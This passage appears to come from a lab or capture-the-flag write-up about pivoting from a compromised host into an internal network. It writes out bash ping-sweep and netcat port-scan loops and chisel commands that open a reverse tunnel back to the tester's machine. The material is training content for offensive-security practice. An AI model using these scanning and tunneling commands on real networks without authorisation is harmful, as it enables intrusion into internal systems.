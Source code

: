 It is very likely that this open machines are **DNS + Configurator** and **Firewall** machines as I seen in the notes above, but I still continued with **Ping Sweep** to make it sure:

  

`time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done`

![](https://i.imgur.com/ZKP4fkU.png)

I found **192.168.122.4** and **192.168.122.5** as expected

### Port scanning

Before port forwarding, I would first discover open ports on discovered targets:

  

192.168.122.4 -> DNS + Configurator

192.168.122.5 -> Firewall

Normally, I can use commands such as below to perform full port scan without needing to install nmap on beachhead system:

  

`time for i in $(seq 1 65535); do (nc -zvn 192.168.122.5 ${i} 2>&1 | grep -v "Connection refused" &); done`

  

But this time I will first scan 1-100 ports to make it faster:

  

`nc -zv 192.168.122.4 1-100` -> port **80** open on **192.168.122.4**

![](https://i.imgur.com/CL6ibAi.png)

### Port Forwarding using Chisel

Now I will need to port-forward into **192.168.122.4:80** from **10.10.10.109 SSH**.

  

First uploaded **chisel** to beachhead system using Python http server and wget:

![](https://i.imgur.com/0fAnPB6.png)

Now on my local machine, I started on Chisel server listening on port 9000:

  

`chisel server -p 9000 --reverse`

![](https://i.imgur.com/4uyQZmM.png)

Now on beachhead system, I port forward 192.168.122.4's port 80 to Local Kali machine's port 9000:

  

`./chisel_linux client 10.10.14.18:9000 R:80:192.168.122.4:80`

![](https://i.imgur.com/HwaRpBY.png)
